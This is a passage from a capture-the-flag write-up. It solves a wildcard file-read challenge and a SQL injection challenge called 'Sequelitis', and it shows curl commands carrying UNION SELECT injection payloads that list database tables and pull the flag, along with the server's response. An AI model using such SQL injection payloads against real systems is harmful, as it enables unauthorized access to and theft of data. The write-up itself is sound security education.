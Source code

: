 i think the flag is located in __e61f406b1ff39023a375efe891f20c57__ directory.
since the c parameter length can't be 10 or more.
we can use cat with wildcard parameter.

payload :
```bash
cat e*/*

Flag = JHDCTF{you_really_can_see_in_the_dark}
```

## Sequelitis
```bash
100
Sequelitis has moved to a new database for keeping track of their customers. Break in.

Connect here: http://jh2i.com:50034.
```

its SQL Injection problem, we can use UNION for this problem.
```bash
curl -X POST http://jh2i.com:50034/ --data "first_name=' OR false UNION SELECT table_schema, table_name,2 FROM information_schema.tables-- -"
```
and the result from command with payload above is there's 2 table :
    1. customer
    2. flag

    payload = first_name=' OR false UNION SELECT *,1,2 from flag limit 0,1-- -

```html
curl -X POST http://jh2i.com:50034/ --data "first_name=' OR false UNION SELECT *,1,2 from flag limit 0,1-- -"

<html>
 <head>
 </head>
 <body>
 <h1>Sequelitis</h1>

<h3> Customer Query </h3>

<form method="POST" action="#">

	<p>
	First Name:
	</p>
	<p>
		<input type="text" name="first_name" placeholder="John">
	</p>
	<p><input type="submit" value="Submit"></p>

</form>

<hr> <!-- ..................................................... -->

<h3> Results </h3>

<pre>
Customers returned are:

JHDCTF{explicit_sqli_is_how_sql_will_die 1: 2

</pre>
</body>
</html>%
```